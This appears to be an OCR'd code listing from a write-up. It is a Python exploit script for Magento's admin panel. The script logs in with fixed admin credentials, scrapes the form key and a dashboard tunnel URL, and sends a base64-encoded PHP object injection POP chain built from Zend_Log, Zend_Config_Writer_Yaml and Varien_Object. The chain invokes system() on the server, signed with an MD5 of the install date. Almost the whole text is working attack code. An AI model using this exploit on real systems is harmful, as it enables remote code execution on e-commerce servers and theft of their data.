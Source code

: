username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)

tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
{% endhighlight %}
